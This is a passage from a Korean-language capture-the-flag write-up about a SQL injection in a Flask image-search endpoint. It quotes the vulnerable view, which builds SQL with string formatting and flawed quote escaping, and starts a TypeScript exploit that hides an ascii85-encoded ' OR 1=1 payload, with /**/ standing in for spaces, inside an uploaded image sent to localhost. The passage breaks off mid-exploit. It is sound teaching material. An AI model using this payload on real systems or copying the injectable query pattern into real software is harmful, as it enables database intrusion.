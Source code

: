 플래그의 위치가 들어나 있지는 않지만, 아래 코드와 같이 `serialize_image`의 결과 값이 `format`을 통해 넘겨지면서 `sql injection`이 발생한다.

```python title="views.py" {12, 15-16}
@app.route('/image-search', methods=['GET', 'POST'])
def image_search():
    if 'image-query' not in request.files or request.method == 'GET':
        return render_template('image-search.html', results=[])

    incoming_file = request.files['image-query']
    size = os.fstat(incoming_file.fileno()).st_size
    if size > MAX_IMAGE_SIZE:
        flash("image is too large (50kb max)");
        return redirect(url_for('home'))

    spic = serialize_image(incoming_file.read())

    try:
        res = db.session.connection().execute(
            text("select parent as PID from images where b85_image = '{}' AND ((select active from posts where id=PID) = TRUE)".format(spic)))
    except Exception:
        return ("SQL error encountered", 500)

    results = []
    for row in res:
        post = db.session.query(Post).get(row[0])
        if (post not in results):
            results.append(post)

    return render_template('image-search.html', results=results)

def serialize_image(pp):
    b85 = base64.a85encode(pp)
    b85_string = b85.decode('UTF-8', 'ignore')

    # identify single quotes, and then escape them
    b85_string = re.sub('\\\\\\\\\\\\\'', '~', b85_string)
    b85_string = re.sub('\'', '\'\'', b85_string)
    b85_string = re.sub('~', '\'', b85_string)

    b85_string = re.sub('\\:', '~', b85_string)
    return b85_string
```

`spic`이 `'or 1=1 -- -`이러한 꼴로 나오게 만들어야 한다는 것이다.

근데, `base85`는 띄어쓰기를 지원하지 않기 때문에, `/**/`을 대신 사용한다.

참고로, python에서 `a85decode`와 `b85decode`는 다르며 각각 `Ascii85`, `Base85` 규칙을 따른다.
따라서, 아래 익스 코드에서는 `ascii85`를 사용하는 라이브러리를 사용하였다.

```typescript title="exploit.ts"
import { create } from "@web";
import { logger } from "@utils";
//@ts-ignore
import ascii85 from "ascii85";

const r = create({
  baseURL: "http://localhost:8080",
});

const formData = new FormData();

const file = new File(
  [ascii85.decode(`/**/\\\\\\\\\\\\'/**/OR/**/1=1/**/--/**/-`)],
  "1.png",
```
